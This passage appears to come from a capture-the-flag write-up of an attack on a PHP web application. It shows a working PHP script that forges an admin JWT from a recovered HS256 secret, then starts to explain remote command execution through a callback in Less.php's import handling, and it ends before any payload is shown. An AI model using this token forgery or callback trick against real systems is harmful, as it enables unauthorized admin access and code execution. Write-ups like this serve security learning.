 
### 5. **Forging an Admin JWT**
With the JWT secret, we forge an admin token:

```php
<?php
require_once 'app/vendor/autoload.php';

use Firebase\JWT\JWT;

// Configuration from JWTManager
$secretKey = 'ThisIsNotTheSameSecretOnRemote';
$algorithm = 'HS256';

// User data structure matching what JWTManager expects
$adminUser = [
    'id' => 1,
    'username' => 'admin',
    'permissions' => [... admin permissions ...]
];

// Create the payload matching JWTManager's structure
$payload = [
    'user_id' => $adminUser['id'],
    'username' => $adminUser['username'],
    'permissions' => $adminUser['permissions'],
    'iat' => time(),
    'exp' => time() + 3600 // Expires in 1 hour
];

try {
    $token = JWT::encode($payload, $secretKey, $algorithm);
    echo $token;
} catch (Exception $e) {
    exit(1);
} 
```

### 6. **Remote Command Execution via Less Import**
The admin interface's custom CSS feature contains a critical vulnerability in the Less processor's import handling. The [Less_FileManager::getFilePath](https://github.com/wikimedia/less.php/blob/d01c8239e65f739f6d3443390efbae1c5dec2bf1/lib/Less/FileManager.php#L37) class improperly executes callbacks when resolving imports:

````php
foreach ( $import_dirs as $rootpath => $rooturi ) {
    if ( is_callable( $rooturi ) ) {
        $res = $rooturi( $filename ); // Critical callback execution
        if ( $res && is_string( $res[0] ) ) {
            return [ /*...*/ ];
        }
    }
````
